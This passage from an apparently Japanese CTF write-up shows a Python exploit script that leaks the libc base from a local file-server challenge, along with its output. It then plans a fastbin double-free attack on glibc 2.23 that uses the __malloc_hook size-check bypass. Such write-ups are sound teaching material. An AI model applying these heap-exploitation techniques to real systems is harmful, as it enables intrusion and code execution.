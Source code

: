 ```python
    sock.sendline("RENAME {} {}".format(filename1, filename2))

libc = ELF("./libc6_2.23-0ubuntu10_amd64.so")
sock = Socket("127.0.0.1", 4321)
#sock = Socket("127.0.0.1", 4322)

upload_file("A.BIN", 0x10, "A" * 0x10)
payload = "A" * 38 + "." + "A00"
rename_file("A.BIN", payload)
upload_file("B.BIN", 0x1000, "B" * 0x1000)
upload_file("C.BIN", 0x10, "C" * 0x10)
delete_file("B.BIN")
data = download_file(payload)
addr = data[0xf0:0xf8]
libc_base = u64(addr) - 88 - 0x3c4b20
dump("libc_base = " + hex(libc_base))

sock.interactive()
```

```
$ python solve.py
[+] Socket: Successfully connected to 127.0.0.1:4321
[ptrlib] libc_base = 0x7f7969283000
[ptrlib]$ 200 Data transferred!
```

dataのポインタを改竄した後dataを読み込むことはできても書き込むことはできません。
また、libcのバージョンは2.23なので、tcacheは導入されていません。
したがって、double freeからのfastbin corruption attackをする必要がありそうです。
libcと同じ要領でヒープのアドレスはリークできるので、dataのポインタを改竄することでdouble freeを引き起こせます。

ただ、いろいろやっている内に知ったのですが、ファイル名は正規表現で`[A-Za-z0-9]+.[A-Za-z0-9]{3}`を満たす必要があります。
これにはoff-by-oneの要領で`fdp->data`の下位1バイトを変更してやれば良さそうです。

次に、fastbin attackを成立させるにはサイズチェックを通過する必要があります。
これは以前HackIMか何かのCTFの問題を解く最中に調べて知ったことなのですが、`__malloc_hook`の前に`0x7f.... `のようなアドレスが存在するので、数バイトずらして0x7fをサイズとして認識させてやれば回避できるそうです。(結局その問題はtcacheだったので使わなかったけど。)
できるか分かりませんがやってみましょう。

※参考文献[2]にこれの分かりやすい解説が「fastbin attack with 0x70 chunk」として紹介されています。

あとfiledata構造体はcallocで確保されるので注意です。
書き込んだ情報が0で埋められてしまいます。

さて、ファイルを削除するときはもちろん次の順番でfreeされます。
```c
free(fdp->data);
free(fdp);
```
他にも、PUT, GET, DELETE, TRUNCの処理終了後に
```c
free(filename);
```
RENAMEの処理終了後に
```c
free(filename1);
free(filename2);
```
があります。
訳が分からなくなってきたので逆算して考えましょう。
当面の目標はfastbinを次のようにリンクさせることです。(double free)
**※後で説明しますがfastbinの検知機構を回避するために間に別のアドレスを挟む必要があります。この時はまだ気づいてない。**
```
fastbin[for 0x70] --> (fdp->data) --> (fdp->data) [--> 以降無限]
```
幸いにもfastbinはサイズに応じて分かれているのでファイル名のfreeは気にしなくて良さそうです。
